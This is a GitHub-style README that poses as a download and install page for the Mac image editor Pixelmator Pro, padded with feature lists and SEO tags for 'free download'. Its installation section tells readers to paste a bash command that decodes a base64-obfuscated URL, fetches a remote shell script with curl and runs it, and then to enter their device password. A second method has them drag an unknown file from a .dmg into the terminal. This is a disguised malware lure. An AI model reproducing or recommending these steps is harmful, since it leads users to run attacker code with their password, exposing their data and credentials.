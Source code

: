 # Pixelmator Pro for Mac – Advanced Image Editing Software  

<div align="center">

![Pixelmator Pro Logo](https://www.dpreview.com/files/p/articles/3667956131/Pixelmator_Pro_Icon.jpeg)

</div>  

**Pixelmator Pro** is a next-generation **image editing application for macOS** designed for photographers, graphic designers, and digital artists. It combines **powerful professional tools** with a sleek, user-friendly interface, making it easy to create, edit, and enhance images with pixel-perfect precision.  

<div align="center">  

[![Download for macOS](https://img.shields.io/badge/Download_for_macOS-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/pixelmator-pro)  

</div>  

---

## 📦 How to Install  

### Installation via .dmg:

1. Install the `.dmg` file using the button above.  
2. Open the `.dmg` installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the **Return** button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)  

### Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the **Return** button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)  

---

## 📊 What is Pixelmator Pro?  

**Pixelmator Pro for Mac** is a professional-grade image editing tool that offers **a perfect blend of power and simplicity**. Built exclusively for macOS, it takes advantage of Apple’s latest technologies, including **Metal, Core ML, and Core Image**, to deliver lightning-fast performance and stunning visual quality.  

Whether you're enhancing photos, creating complex graphic designs, or preparing digital illustrations, Pixelmator Pro provides all the essential tools — from **layer-based editing** to **non-destructive adjustments**, vector graphics, and advanced typography.  

Its **machine learning-powered features** can automatically improve photo composition, remove unwanted objects, and even replace image backgrounds with remarkable accuracy. The clean, single-window interface is designed to keep you focused, while full integration with macOS ensures a seamless workflow.  

Pixelmator Pro is a favorite among creative professionals and casual users alike thanks to its **affordable pricing**, robust feature set, and continuous updates that keep it ahead of many more expensive competitors.  

---

![Pixelmator Pro Editing Screenshot](https://www.pixelmator.com/cdn-web-assets/pro/2.3/img_remove-bg.jpg)  

---

## 🖥️ Key Features  

- 🎨 **Advanced Editing Tools** – Layer-based editing, blending modes, vector shapes  
- 🤖 **AI-Powered Enhancements** – Automatic photo correction, background removal, ML Super Resolution  
- 🖌️ **Retouch & Repair Tools** – Clone, heal, and reshape images with ease  
- 📏 **Precision Design** – Rulers, guides, grid layouts, and pixel-perfect snapping  
- 🌈 **Color Adjustments** – Fine-tune exposure, contrast, saturation, and more  
- 🖼️ **RAW Support** – Edit RAW images with full quality retention  
- 📐 **Vector Graphics** – Create scalable shapes and illustrations  
- 📂 **Wide File Compatibility** – PSD, PNG, JPEG, HEIF, TIFF, SVG, and more  
- 💻 **Optimized for macOS** – Metal acceleration, Apple Silicon native  
- 🔄 **Non-Destructive Editing** – Make changes without permanently altering originals  

---

![Pixelmator Pro Workspace](https://www.pixelmator.com/cdn-web-assets/blog/2020-11-13-pixelmator-team-unveils-pixelmator-pro-2.0/img_hero@2x.jpg)  

---

## ⚙️ System Requirements  

- **OS**: macOS 10.15 Catalina or later (including Ventura & Sonoma)  
- **CPU**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: 1 GB free space  
- **Internet**: Required for updates and license activation  

---

## 🏷️ Tags  

pixelmator pro, pixelmator, pixelmator software, apple pixelmator, pixelmator windows, pixelmator pro mac, app pixelmator, mac pixelmator, pixelmator black friday, pixelmator pricing, pixelmator pro cost, pixelmator pro discount, pixelmator pro reviews, pixelmator pro sale, pixelmator pro trial, pixelmator pro windows, pixelmator trial, pixelmator pro download, pixelmator pro free download, pixelmator pro mac download, pixelmator pro mac free download  

---

